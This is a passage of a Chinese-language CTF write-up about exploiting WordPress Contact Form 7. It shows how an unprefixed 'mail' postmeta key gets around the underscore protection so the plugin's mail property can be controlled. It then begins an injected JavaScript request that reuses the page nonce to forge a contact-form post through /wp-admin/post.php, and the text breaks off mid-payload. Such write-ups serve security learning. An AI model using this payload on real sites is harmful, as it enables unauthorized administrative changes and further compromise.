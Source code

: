 

但是这里有个is_protected_meta,跟进去发现这个函数限制了我们的键不能以`_`开头，按照原来的payload，到这里好像死路了。

但是我们跟踪以下插件渲染表单的代码发现



contact-form.php:129

class WPCF7_ContactForm

```php
private function __construct( $post = null ) {
		$post = get_post( $post );

		if ( $post && self::post_type == get_post_type( $post ) ) {
			$this->id = $post->ID;
			$this->name = $post->post_name;
			$this->title = $post->post_title;
			$this->locale = get_post_meta( $post->ID, '_locale', true );

			$properties = $this->get_properties();

			foreach ( $properties as $key => $value ) {
				if ( metadata_exists( 'post', $post->ID, '_' . $key ) ) {
					$properties[$key] = get_post_meta( $post->ID, '_' . $key, true );
				} elseif ( metadata_exists( 'post', $post->ID, $key ) ) {
					$properties[$key] = get_post_meta( $post->ID, $key, true );
				}
			}

			$this->properties = $properties;
			$this->upgrade();
		}

		do_action( 'wpcf7_contact_form', $this );
	}
```

contact form 的属性啥的就是从`$properties`中取出(`_mail`就在这里面)，想要利用历史漏洞我们必须能够控制`_mail`的值

`metadata_exists( 'post', $post->ID, '_' . $key )`:它先会去表中查找`"_"."mail"`这个属性，没有的话再去查找`"mail"`属性，正好我们前面找到一个可以控制非`_`开头的postmeta



于是构造

```javascript
var settings = {
    "async": true,
    "crossDomain": true,
    "url": "/wp-admin/post.php?post=1",
    "method": "POST",
    "data": {
        "_wpnonce": document.getElementById("_wpnonce").value,
        "_wp_http_referer": "%2Fwp-admin%2Fpost-new.php",
        "user_ID": "3",
        "action": "post",
        "originalaction": "editpost",
        "post_author": "3",
        "post_type": "wpcf7_contact_form",
        "original_post_status": "auto-draft",
        "auto_draft": "",
        "post_title": "readflagtotmp2log",
        "content": "test",
        "wp-preview": "",
        "hidden_post_status": "draft",
        "post_status": "draft",
```